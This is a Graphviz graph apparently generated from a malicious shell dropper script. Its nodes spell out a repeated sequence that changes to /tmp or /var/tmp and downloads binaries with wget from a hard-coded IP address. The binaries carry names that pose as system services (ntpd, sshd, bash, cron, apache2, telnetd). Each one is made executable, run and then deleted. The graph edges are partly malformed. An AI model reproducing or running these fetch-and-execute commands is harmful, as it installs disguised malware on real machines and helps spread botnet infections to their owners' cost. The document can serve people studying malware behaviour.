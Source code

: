 digraph {
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/tmp "];
146 -> 4 [label="||,"];
4 [label="wget http://163.172.20.236/ntpd "];
4 -> 6 [label=";,"];
6 [label="chmod +x ntpd "];
6 -> 8 [label=";,"];
8 [label="./ntpd "];
8 -> 10 [label=";,"];
10 [label="rm -rf ntpd "];
10 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/tmp "];
146 -> 16 [label="||,"];
16 [label="wget http://163.172.20.236/sshd "];
16 -> 18 [label=";,"];
18 [label="chmod +x sshd "];
18 -> 20 [label=";,"];
20 [label="./sshd "];
20 -> 22 [label=";,"];
22 [label="rm -rf sshd "];
22 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/tmp "];
146 -> 28 [label="||,"];
28 [label="wget http://163.172.20.236/openssh "];
28 -> 30 [label=";,"];
30 [label="chmod +x openssh "];
30 -> 32 [label=";,"];
32 [label="./openssh "];
32 -> 34 [label=";,"];
34 [label="rm -rf openssh "];
34 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/tmp "];
146 -> 40 [label="||,"];
40 [label="wget http://163.172.20.236/bash "];
40 -> 42 [label=";,"];
42 [label="chmod +x bash "];
42 -> 44 [label=";,"];
44 [label="./bash "];
44 -> 46 [label=";,"];
46 [label="rm -rf bash "];
46 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/tmp "];
146 -> 52 [label="||,"];
52 [label="wget http://163.172.20.236/tftp "];
52 -> 54 [label=";,"];
54 [label="chmod +x tftp "];
54 -> 56 [label=";,"];
56 [label="./tftp "];
56 -> 58 [label=";,"];
58 [label="rm -rf tftp "];
58 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/tmp "];
146 -> 64 [label="||,"];
64 [label="wget http://163.172.20.236/wget "];
64 -> 66 [label=";,"];
66 [label="chmod +x wget "];
66 -> 68 [label=";,"];
68 [label="./wget "];
68 -> 70 [label=";,"];
70 [label="rm -rf wget "];
70 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/tmp "];
146 -> 76 [label="||,"];
76 [label="wget http://163.172.20.236/cron "];
76 -> 78 [label=";,"];
78 [label="chmod +x cron "];
78 -> 80 [label=";,"];
80 [label="./cron "];
80 -> 82 [label=";,"];
82 [label="rm -rf cron "];
82 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/tmp "];
146 -> 88 [label="||,"];
88 [label="wget http://163.172.20.236/ftp "];
88 -> 90 [label=";,"];
90 [label="chmod +x ftp "];
90 -> 92 [label=";,"];
92 [label="./ftp "];
92 -> 94 [label=";,"];
94 [label="rm -rf ftp "];
94 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/tmp "];
146 -> 100 [label="||,"];
100 [label="wget http://163.172.20.236/pftp "];
100 -> 102 [label=";,"];
102 [label="chmod +x pftp "];
102 -> 104 [label=";,"];
104 [label="./pftp "];
104 -> 106 [label=";,"];
106 [label="rm -rf pftp "];
106 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/tmp "];
146 -> 112 [label="||,"];
112 [label="wget http://163.172.20.236/sh "];
112 -> 114 [label=";,"];
114 [label="chmod +x sh "];
114 -> 116 [label=";,"];
116 [label="./sh "];
116 -> 118 [label=";,"];
118 [label="rm -rf sh "];
118 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/tmp "];
146 -> 124 [label="||,"];
124 [label="wget http://163.172.20.236/  "];
124 -> 126 [label=";,"];
126 [label="chmod +x   "];
126 -> 128 [label=";,"];
128 [label="./  "];
128 -> 130 [label=";,"];
130 [label="rm -rf   "];
130 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/tmp "];
146 -> 136 [label="||,"];
136 [label="wget http://163.172.20.236/apache2 "];
136 -> 138 [label=";,"];
138 [label="chmod +x apache2 "];
138 -> 140 [label=";,"];
140 [label="./apache2 "];
140 -> 142 [label=";,"];
142 [label="rm -rf apache2 "];
142 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/tmp "];
146 -> 148 [label="||,"];
148 [label="wget http://163.172.20.236/telnetd "];
148 -> 150 [label=";,"];
150 [label="chmod +x telnetd "];
150 -> 152 [label=";,"];
152 [label="./telnetd "];
152 -> 153 [label=";,"];
}
